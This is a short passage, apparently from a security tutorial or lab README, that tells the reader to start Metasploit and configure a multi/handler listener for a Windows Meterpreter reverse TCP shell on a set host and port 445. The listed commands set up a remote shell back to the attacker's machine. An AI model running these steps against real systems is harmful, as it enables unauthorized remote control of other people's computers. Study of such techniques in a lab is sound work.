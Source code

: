 ![tempfolder](screenshots/tempfolder.png)

Now on the host machine, start up metasploit and run the following commands:

<ol>
    <li>Load "use exploit/mulit/handler"</li>
    <li>set PAYLOAD windows/meterpreter/reverse_tcp</li>
    <li>set LHOST 10.4.73.48</li>
    <li>set LPORT 445</li>
    <li>run</li>
</ol>

![metasploitsetup](screenshots/metasploitsetup.png)
